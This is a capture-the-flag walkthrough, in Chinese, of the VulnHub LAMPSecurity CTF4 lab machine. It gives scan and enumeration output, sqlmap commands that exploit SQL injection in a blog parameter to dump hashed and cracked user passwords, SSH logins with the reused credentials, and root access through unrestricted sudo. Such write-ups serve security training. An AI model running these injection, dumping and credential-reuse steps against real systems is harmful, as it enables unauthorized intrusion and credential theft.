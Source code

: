 # LAMPSecurity: CTF4

2024-6-4 https://www.vulnhub.com/entry/lampsecurity-ctf4,83/

difficulty: easy

## IP

192.168.10.191

## Scan

Open Port -> 22,25,80,631

```
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
25/tcp  open   smtp?
| smtp-commands: ctf4.sas.upenn.edu Hello [192.168.10.3], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.5 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
|_http-server-header: Apache/2.2.0 (Fedora)
631/tcp closed ipp
```

估计 80 能进入系统，gobuster 进行扫描：

```
http://192.168.10.191/images               (Status: 301) [Size: 316] [--> http://192.168.10.191/images/]
http://192.168.10.191/index.html           (Status: 200) [Size: 3479]
http://192.168.10.191/pages                (Status: 301) [Size: 315] [--> http://192.168.10.191/pages/]
http://192.168.10.191/calendar             (Status: 301) [Size: 318] [--> http://192.168.10.191/calendar/]
http://192.168.10.191/mail                 (Status: 301) [Size: 314] [--> http://192.168.10.191/mail/]
http://192.168.10.191/admin                (Status: 301) [Size: 315] [--> http://192.168.10.191/admin/]
http://192.168.10.191/usage                (Status: 301) [Size: 315] [--> http://192.168.10.191/usage/]
http://192.168.10.191/robots.txt           (Status: 200) [Size: 104]
http://192.168.10.191/inc                  (Status: 301) [Size: 313] [--> http://192.168.10.191/inc/]
http://192.168.10.191/sql                  (Status: 301) [Size: 313] [--> http://192.168.10.191/sql/]
```

/robots.txt 显示：

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

http://192.168.10.191/sql/ 发现 db.sql 备份文件，看看有没有用户凭据等信息，只看到了建表 sql：

```
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

http://192.168.10.191/admin/ 发现登陆页面，需要输入用户凭据。底部看到的是 webmaster 的 cms,经过查询找到了 2 个 Password Disclosure 但是都没有利用成功，估计是把 passwd txt 文件删除了。

在仔细看看 80 对应的首页内容，看到 http://192.168.10.191/index.html?page=blog&title=Blog&id=2' 出现报错， 这里可能存在 sql 注入，尝试用 sqlmap 进行测试，发现存在：

```
sqlmap -u 'http://192.168.10.191/index.html?page=blog&title=Blog&id=2' --level 3 -dbs --batch

available databases [6]:
[*] calendar
[*] ehks
[*] information_schema
[*] mysql
[*] roundcubemail
[*] test
```

这个 index.php 对应的库应该是 ehks，爆一下表看看：

```
sqlmap -u 'http://192.168.10.191/index.html?page=blog&title=Blog&id=2' --level 3 --batch -D ehks --tables

+---------+
| comment |
| user    |
| blog    |
+---------+

sqlmap -u 'http://192.168.10.191/index.html?page=blog&title=Blog&id=2' --level 3 --batch -D ehks -T user --dump

+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 (pacman)        |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+
```

用其中的一个用户凭据登陆到后台后，发表文章出，写入 php web shell，但是发现尖括号被转义了，不能触发 php 执行。

在尝试用这几个得到的用户凭据，进行 ssh 登陆，发现 dstevens:ilike2surf、achen:seventysixers、pmoore:Homesite、jdurbin:Sue1978、sorzek:pacman、ghighland:undone1 能够进入系统。

经过查看，发现 achen 具有完全的 sudo 执行权限，所以直接可以提升到 root 权限：

```
[achen@ctf4 home]$ sudo -l
User achen may run the following commands on this host:
    (ALL) NOPASSWD: ALL

[achen@ctf4 home]$ sudo su
[root@ctf4 home]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
[root@ctf4 home]# cd /root
[root@ctf4 ~]# ls
anaconda-ks.cfg  Desktop  install.log  install.log.syslog
```
